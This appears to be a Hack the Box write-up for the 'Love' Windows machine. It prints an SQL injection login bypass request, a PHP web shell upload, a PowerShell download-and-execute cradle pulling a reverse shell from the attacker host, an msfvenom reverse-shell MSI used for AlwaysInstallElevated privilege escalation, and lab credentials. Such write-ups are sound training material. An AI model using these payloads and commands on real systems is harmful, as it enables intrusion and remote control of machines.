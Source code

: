 ```yaml
---
title: Love
tags: windows
description: Write-up for Hack the Box - Love
---
```


![2021-09-07_07-04.png](/home/sixstringacks/share/git/tmp_assets/10c88df76c6a1df90ef6639f020ab85ce7cf1179.png)

## Overview

## Enumeration

**Software**

* Windows 10 Pro 19042

* ApacheFriends XAMPP Version 7.3.27

* Apache 2.4.46                                                                                                                                                                                                                            

* MariaDB 10.4.18                                                                                                                                                                                                                          

* PHP 7.3.27 (VC15 X86 64bit thread safe) + PEAR                                                                                                                                                                                           

* phpMyAdmin 5.1.0                                                                                                                                                                                                                         

* OpenSSL 1.1.0g                                                                                                                                                                                                                           

* ADOdb 518a                                                                                                                                                                                                                               

* Mercury Mail Transport System v4.63 (not included in the portable version)                                                                                                                                                               

* FileZilla FTP Server 0.9.41 (not included in the portable version)                                                                                                                                                                       

* Webalizer 2.23-04 (not included in the portable version)                                                                                                                                                                                 

* Strawberry Perl 5.32.0.1 Portable                                                                                                                                                                                                        

* Tomcat 7.0.108                                                                                                                                                                                                                           

* XAMPP Control Panel Version 3.2.4.                                                                                                                                                                                                       

* XAMPP mailToDisk 1.0

**Open Ports**

```
nmap -vv --reason -Pn -sT -A --osscan-guess -p- -oN results/10.10.10.239/scans/_full_tcp_nmap.txt
```

* 80/tcp - http

* 135/tcp - Windows RPC

* 139/tcp - Netbios

* 443/tcp - https

* 3306/tcp - MySQL

* 5000/tcp - http

* 5040/tcp - unknown (windows deployment services?)

* 5985/tcp - WinRM

* 7680/tcp - pando-pub?

* 47001/tcp - ?

* 49664-70/tcp - Windows RPC

## Steps (User)

http site, Voting System using PHP. Did a search and there is an exploit https://www.exploit-db.com/exploits/49846, tried and did not appear to work

ssl cert staging.love.htb, updated /etc/hosts, went to site and received 403 forbidden

sqlmap vulnerable to blind sql injection, but no sensitive data received from database

```

```

exploit bcrypt worked, created bcrypt has for password1, intercepted with burp and wsa able to bypass

```
POST /admin/login.php HTTP/1.1
Host: 10.10.10.239
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=tliephrsj1d5ljhbvsbccnqmff
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 171

login=yea&password=password1&username=asdfdf' UNION SELECT 1,2,"$2a$12$GePYTQLUfpDac2XYtvj9de2I50zyK54f5gkYlu5VNOJ9JR46NRDly",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -
```

![2021-09-08_16-56.png](/home/sixstringacks/share/git/tmp_assets/fe72e69bfca5e0402b41da3e74a2f3a0f2bbf324.png)

second exploit to upload shell

[Online Voting System 1.0 - Remote Code Execution (Authenticated) - PHP webapps Exploit](https://www.exploit-db.com/exploits/50076)

![2021-09-08_17-04.png](/home/sixstringacks/share/git/tmp_assets/a1500ae055d66c05cd8f67c4e9b8e50b587da32c.png)

```
Content-Disposition: form-data; name="photo"; filename="rshell.php"
Content-Type: application/octet-stream

<?php echo shell_exec($_GET["cmd"]); ?>
```

![2021-09-08_17-05.png](/home/sixstringacks/share/git/tmp_assets/ea53c273793a6e868576daf3379a6e8a666213f1.png)

![2021-09-08_17-02.png](/home/sixstringacks/share/git/tmp_assets/dbe320172251daae3cb5b5874522f7d4db9b7331.png)

![2021-09-08_17-05_1.png](/home/sixstringacks/share/git/tmp_assets/95f40cfb4e8cd61e1fd97a3ce83266a1b7d55f90.png)

```
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.9/mini-reverse.ps1')
```

![2021-09-08_17-23.png](/home/sixstringacks/share/git/tmp_assets/048e5924537789eac5ecf77344e27fd2b64ca596.png)

> I ultimately switched over to Invoke-PowerShellTcp.ps1 that I used for previous boxes because it provided a better shell 
> 
> powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.9/mini-reverse.ps1')

## Steps (root/system)

found password c:\xampp\htdocs\omrs\includes\conn.php phoebe:HTB#9826^)__

![2021-09-08_17-42.png](/home/sixstringacks/share/git/tmp_assets/251b5401162cc458cb9a3b548bdb63244174f0a1.png)

I also found the admin password. This was only good for the voting website

![2021-09-08_17-44.png](/home/sixstringacks/share/git/tmp_assets/8c99da20b73d9ec9fa682661fd133e77834754d4.png)

admin:@LoveIsInTheAir!!!!

Phoebe in Remote Management users and port 5985 open, so WinRM can be used

![2021-09-09_08-11.png](/home/sixstringacks/share/git/tmp_assets/b7e9d80a0aa95c331e2e38c3eed285d09bd2cb87.png)

upgrade shell

```
evil-winrm -i 10.10.10.239 -u phoebe -p "HTB#9826^(_" 
```

![2021-09-09_08-15.png](/home/sixstringacks/share/git/tmp_assets/67638681301ce979b68a0e9a9fb34883e950ac36.png)

WinPEAS showed that  AlwaysInstallElevated registry key was set to 1. Which does...

![2021-09-12_13-49.png](/home/sixstringacks/share/git/tmp_assets/3617c9e48e133b6ed65a3ece8034b8f9c297562f.png)

And also a path rule which appeared to allow Phoebe to run msi files from the c:\administration path

![2021-09-11_11-47.png](/home/sixstringacks/share/git/tmp_assets/6a32e19cab2d87488daa0de48a80ff758a6f0007.png)

I created a reverse shell msi with msfvenom and copied it to the box

```
msfvenom -p windows -a x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.9 LPORT=4201 -f msi --out privesc.msi
```

I ran the msi file from c:\administration (as predicted, it did not work when trying to run from Phoebe's home folder) and received a callback and reverse shell as 'nt authority\system'

```
cmd /c "msiexec /quiet /qn /i c:\administration\privesc.msi"
```

> unfortunately i had issues running the msi in WinRM, so I had to revert back to the webshell i was using previously.

![2021-09-12_14-10.png](/home/sixstringacks/share/git/tmp_assets/9e9b09b057f0f663ad39fc901ea8f91cc01169b6.png)
